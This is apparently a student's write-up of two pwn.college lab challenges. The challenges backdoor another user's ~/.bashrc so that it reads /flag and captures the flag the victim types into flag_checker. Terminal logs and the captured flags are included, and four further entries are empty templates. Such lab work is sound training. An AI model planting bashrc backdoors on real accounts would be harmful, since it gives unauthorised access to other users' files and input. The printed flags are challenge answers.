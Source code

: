 # 1. Bashrc Backdoor

### attacking a script

**Flag:** `pwn.college{MPH7BOpyi7wcsdwpJR8VLjeuF_F.0VMzEzNxwyM3gjNzEzW}`

as per the challenge, we are using some other user bashrc named zardus.
in that the flag, is hidden, we need to read that, so we did first nano `/home/zardus/.bashrc` and then entered `cat /flag` and saved and exited.
then i ran the `/challenge/victim`. and thus got the flag.


Inside bashrc
```
# this sets up a scary red shell prompt!
PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

# add your attack below this line!
cat /flag

```



```
hacker@shenanigans~bashrc-backdoor:~$ nano /home/zardus/.bashrc
hacker@shenanigans~bashrc-backdoor:~$ /challenge/victim
Username: zardus
Password: ***********

zardus@shenanigans~bashrc-backdoor:~$ exit
logout
hacker@shenanigans~bashrc-backdoor:~$ nano /home/zardus/.bashrc
hacker@shenanigans~bashrc-backdoor:~$ /challenge/victim
Username: zardus
Password: ***********
pwn.college{MPH7BOpyi7wcsdwpJR8VLjeuF_F.0VMzEzNxwyM3gjNzEzW}
zardus@shenanigans~bashrc-backdoor:~$ exit
logout

```

## What I learned

I learned how to access other users script using bashrc


## References

NIL

..................................................................

# 2. sniffing input

### 

**Flag:** `pwn.college{8sEU2_CfmxI-po4gn1e5M8LCbQf.0VNzEzNxwyM3gjNzEzW}`

as per the challenge, we need to get the flag from zardus when he does run a program named flag_checker which he types the flag manually and checks it. so we did first `nano /home/zardus/.bashrc` and i added a few lines of code to get the flag. and thus got the flag.

```
# this sets up a scary red shell prompt!
PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

# add your attack below this line!
echo "Type the flag"
flag_checker > output.txt
cat output.txt


```
```
hacker@shenanigans~sniffing-input:~$ cat /home/zardus/.bashrc
# this sets up a scary red shell prompt!
PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

# add your attack below this line!
hacker@shenanigans~sniffing-input:~$ nano /home/zardus/.bashrc
hacker@shenanigans~sniffing-input:~$ cd /home/zardus
hacker@shenanigans~sniffing-input:/home/zardus$ ls
hacker@shenanigans~sniffing-input:/home/zardus$ ls -l
total 0
hacker@shenanigans~sniffing-input:/home/zardus$ nano /home/zardus/.bashrc
hacker@shenanigans~sniffing-input:/home/zardus$ ls
hacker@shenanigans~sniffing-input:/home/zardus$ cd
hacker@shenanigans~sniffing-input:~$ nano /home/zardus/.bashrc
hacker@shenanigans~sniffing-input:~$ /challenge/victim
Username: zardus
Password: ***********
Type the flag
flag_checker
Type the flag, victim:
Incorrect!
zardus@shenanigans~sniffing-input:~$ *************************************************************-bash: pwn.college{8sEU2_CfmxI-po4gn1e5M8LCbQf.0VNzEzNxwyM3gjNzEzW}: command not found
zardus@shenanigans~sniffing-input:~$ exit
logout

```

## What I learned


## References

NIL

..................................................................



# 3. 

### 

**Flag:** ``



```


```

## What I learned


## References

NIL

..................................................................



# 4. 

### 

**Flag:** ``



```


```

## What I learned


## References

NIL

..................................................................



# 5. 

### 

**Flag:** ``



```


```

## What I learned


## References

NIL

..................................................................



# 6. 

### 

**Flag:** ``



```


```

## What I learned


## References

NIL

..................................................................
